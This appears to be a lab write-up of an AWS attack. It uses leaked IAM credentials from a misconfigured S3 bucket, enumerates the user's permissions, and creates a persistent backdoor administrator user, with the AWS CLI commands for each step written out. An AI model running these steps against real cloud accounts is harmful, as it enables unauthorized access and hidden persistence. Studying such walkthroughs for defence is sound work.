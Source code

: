 The `temp-user` was targeted after its `AdministratorAccess` credentials were leaked from the S3 bucket.

1.  **Obtain IAM User Credentials:**
    Credentials for `temp-user` were obtained from:
    * Misconfigured S3 buckets (`secret-credentials.txt`).
    * *(Future/alternative methods explored: Public GitHub leaks, hardcoded in Lambda function source code, exposed EC2 metadata)*.

2.  **Configure AWS CLI with Leaked Credentials:**
    Set up the AWS CLI with the compromised credentials:
    ```bash
    # For temporary use
    export AWS_ACCESS_KEY_ID=AKIA...
    export AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxx
    ```
    * **Test Access:**
        ```bash
        aws sts get-caller-identity
        ```
        * **Result:** Successful `sts get-caller-identity` confirmed full IAM access.

![Screenshot From 2025-06-20 01-54-09](https://github.com/user-attachments/assets/88074206-357d-4399-b3e3-13bf95ca48e3)

3.  **Enumerate IAM User Permissions:**
    Verified the user's permissions:
    ```bash
    aws iam list-attached-user-policies --user-name temp-user
    aws iam list-user-policies --user-name temp-user
    # Or use enumerate-iam tool:
    # pip install enumerate-iam
    # enumerate-iam --access-key AKIA... --secret-key ...
    ```
    * **Result:** Confirmed `temp-user` had `iam:*`, `ec2:*`, `s3:*`, `lambda:*`, `ssm:*`, indicating `AdministratorAccess`.

![Screenshot From 2025-06-20 01-56-54](https://github.com/user-attachments/assets/2e9ba248-4c08-47b8-a6f9-ca120bd1f833)


4.  **Common Privilege Escalation Techniques (Demonstrated/Discussed):**

    * **A) Create New Admin User:**
        (If `iam:CreateUser` and `iam:AttachUserPolicy` are allowed)
        ```bash
        aws iam create-user --user-name attacker-persist
        aws iam create-access-key --user-name attacker-persist
        aws iam attach-user-policy --user-name attacker-persist \
        --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
        ```
        * **Result:** A new, fully privileged backdoor user was created.
